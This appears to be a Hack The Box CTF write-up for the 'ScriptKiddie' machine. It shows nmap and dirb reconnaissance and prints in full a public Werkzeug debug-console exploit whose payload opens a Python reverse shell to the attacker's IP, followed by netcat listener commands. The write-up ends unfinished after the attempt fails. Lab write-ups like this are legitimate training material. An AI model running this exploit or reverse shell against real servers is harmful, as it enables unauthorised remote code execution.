 ```yaml
---
title: "ScriptKiddie"
author: "Me"
date: "March 18, 2021"
output: html_document
---
```


# ScriptKiddie

 <div id="boxinfo">
 <div id="textbox">
 <p class="alignleft">**Difficulty**: easy (4.1/10)</p>
 <p class="aligncenter">**Type**: CTF</p>
 <p class="alignright">**OS**: Linux</p>
 </div>
 <div style="clear: both;"></div>
 </div> 

<div class="img_container">
![desc]({{https://jsom1.github.io/}}/_images/htb_sk_desc.png){: height="250px" width = "280px"}
</div>

**Tools:** \\
**Techniques:** \\
**Keywords:** \\


## 1. Port scanning
{:style="color:DarkRed; font-size: 170%;"}

As usual, let's perform a nmap scan with the flags *-sV* to have a verbose output, *-O* to enable OS detection, and *-sC* to enable the most common scripts scan.

<div class="img_container">
![nmap]({{https://jsom1.github.io/}}/_images/htb_sk_nmap.png)
</div>

There's only SSH and a web server running, let's have a look at this latter.

## 2. Find and exploit vulnerabilities
{:style="color:DarkRed; font-size: 170%;"}

We browse to 10.10.10.226:5000 and find the following page:

<div class="img_container">
![web site]({{https://jsom1.github.io/}}/_images/htb_sk_site.png)
</div>

While will try its functionnalities, we start dirbuster in the background:

````
sudo dirb http://10.10.10.226:5000 -r
`````
We see the web server is "Werkzeug", so let's search for an exploit related to it in the tool (it's the third tool on the page si it's not in the image above):

<div class="img_container">
![try tool]({{https://jsom1.github.io/}}/_images/htb_sk_tool.png)
</div>

It indeed returns two exploits. Since *dirb* didn't find anything, we will have a deeper look at those exploits. There are two of them, the first one is a python exploit while the latter is a ruby script that is part of the Metasploit framework. Metasploit's multi/handler often provides more stable revershe shells, but let's try the python one first. We can see its content with *cat /usr/share/exploitdb/exploits/multiple/remote/43905.py*, which is the following:

````
#!/usr/bin/env python
import requests
import sys
import re
import urllib

# usage : python exploit.py 192.168.56.101 5000 192.168.56.102 4422 

if len(sys.argv) != 5:
    print "USAGE: python %s <ip> <port> <your ip> <netcat port>" % (sys.argv[0])
    sys.exit(-1)


response = requests.get('http://%s:%s/console' % (sys.argv[1],sys.argv[2]))

if "Werkzeug " not in response.text:
    print "[-] Debug is not enabled"
    sys.exit(-1)

# since the application or debugger about python using python for reverse connect 
cmd = '''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("%s",%s));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);''' % (sys.argv[3],sys.argv[4])

__debugger__ = 'yes'

frm = '0'

response = requests.get('http://%s:%s/console' % (sys.argv[1],sys.argv[2]))

secret = re.findall("[0-9a-zA-Z]{20}",response.text)

if len(secret) != 1:
    print "[-] Impossible to get SECRET"
    sys.exit(-1)
else:
    secret = secret[0]
    print "[+] SECRET is: "+str(secret)

# shell
print "[+] Sending reverse shell to %s:%s, please  use netcat listening in %s:%s" % (sys.argv[1],sys.argv[2],sys.argv[3],sys.argv[4])

raw_input("PRESS ENTER TO EXPLOIT")

data = {
        '__debugger__' : __debugger__,
        'cmd' : str(cmd),
        'frm' : frm,
        's' : secret
        }


response = requests.get("http://%s:%s/console" % (sys.argv[1],sys.argv[2]), params=data,headers=response.headers)

print "[+] response from server"
print "status code: " + str(response.status_code)
print "response: "+ str(response.text)
`````
This script seems to be honest and easy to use. It will ask us to setup a netcat listener at some point. Let's just try it. I fist copy the script on my desktop with *cp /usr/share/exploitdb/exploits/multiple/remote/43905.py .*. We then use it with the syntax *python exploit.pty target_IP target_port my_IP netcat_port*. I'll set up the listener on port 4444 with the command *sudo nc -nlvp 4444*. We get our ip with *sudo ifconfig tun0*. We can then try the script:

<div class="img_container">
![exploit fail]({{https://jsom1.github.io/}}/_images/htb_sk_fail.png)
</div>

We see in the script above that this error is returned if "Werkzeug " is not in the response of the GET request "GET http://10.10.10.226:5000/console". We can use Burp or Wireshark to see it in details. I'll use Wireshk this time. We just have to capture traffic on the tun0 interface and try the previous command once again. We then see the three-ways handshake and the GET request among all the packets:

<div class="img_container">
![wireshark packets]({{https://jsom1.github.io/}}/_images/htb_sk_ws1.png)
</div>

We an right click on this packet and select *Follow* -> *TCP stream*. We then see the response of the server:

<div class="img_container">
![TCP stream]({{https://jsom1.github.io/}}/_images/htb_sk_ws2.png)
</div>

Unsurprisingly, we see the file *console* was not found.



<ins>**My thoughts**</ins>



